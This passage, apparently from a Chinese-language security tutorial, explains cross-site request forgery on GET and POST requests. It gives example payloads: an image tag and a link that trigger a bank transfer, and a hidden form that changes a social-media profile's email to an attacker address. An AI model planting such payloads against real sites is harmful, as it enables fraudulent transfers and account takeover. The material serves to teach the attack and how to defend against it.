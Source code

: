 #### **攻击场景**

假设某银行网站的转账操作通过以下 URL 实现：

```http
https://bank.com/transfer?amount=1000&to=12345
```

任何已登录的用户点击此链接，都会向银行服务器发送转账请求，而无需进一步验证。

#### **攻击示例**

攻击者可以通过以下方式诱导受害者发起请求：

1. 在网页中嵌入图片：

   ```html
   <img src="https://bank.com/transfer?amount=1000&to=12345" alt="Hidden Request">
   ```

   当受害者打开此网页时，浏览器会自动向银行服务器发送 GET 请求，执行转账。

2. 在超链接中诱导点击：

   ```html
   <a href="https://bank.com/transfer?amount=1000&to=12345">Click here for a surprise!</a>
   ```

---

### **2. POST 请求中的 CSRF 漏洞**

#### 特点

- POST 请求通常用于提交表单或进行有副作用的操作。
- POST 请求的 CSRF 攻击通过伪造提交表单来完成。

#### 攻击场景

假设某社交媒体网站的用户设置修改功能通过 POST 请求完成：

```http
POST https://socialmedia.com/update-profile
Content-Type: application/x-www-form-urlencoded

email=attacker@example.com&username=hacked
```

服务器没有验证 CSRF 令牌或其他保护措施，任何登录用户发出的此请求都会生效。

#### 攻击示例

攻击者可以通过伪造表单诱导受害者发起请求：

```html
<form action="https://socialmedia.com/update-profile" method="POST">
    <input type="hidden" name="email" value="attacker@example.com">
    <input type="hidden" name="username" value="hacked">
    <input type="submit" value="Click to win a prize!">
</form>
```
